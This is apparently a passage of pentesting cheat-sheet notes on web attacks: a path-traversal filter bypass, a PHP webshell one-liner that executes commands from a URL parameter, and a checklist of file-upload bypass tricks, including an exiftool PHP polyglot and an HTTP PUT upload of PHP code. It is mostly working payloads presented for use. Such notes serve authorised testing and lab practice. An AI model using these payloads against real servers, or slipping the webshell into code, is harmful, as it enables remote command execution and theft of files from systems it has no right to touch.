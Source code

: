 <h2>How can we bypass the whitelist?</h2>

Simply by encoding ../ or ....// . normally the whitelist usually detects and removes ../ so by entering ....// in input the whitelist strips ../ .eventually it becomes ../ . another way is to use non-standard encoding formats.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## <h2>File Upload</h2>

<b>PHP webshell one-liner</b>

```
<?php echo system($_GET['command']); ?>
```

<h2>Bypass techniques</h2>

For the file upload function that has security in place. here is the checklist.

1. Content-type bypass - Sometimes the server checks only **Content-type**(ex. it checks it is **image/png** or simialr). in this case, we can simple change **"Content-type"**

2. Overriding the server configuration - in apache server, we can try **.htaccess** and in IIS server, we can try **web.config**

3. Obfuscatation - ex. exploit.php > exploit.pHp. or **exploit.p.phphp**. there is a chance that blacklist will strip .php. 

4. double file extension - web.php.jpg

5. adding . after file ext. - web.php.

6. inject in the comment. ex.

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

7. Upload with PUT method request

```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```


<h2>IIS Pentesting</h2>

**https://github.com/reewardius/iis-pentest**

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## <h2>GraphQL</h2>

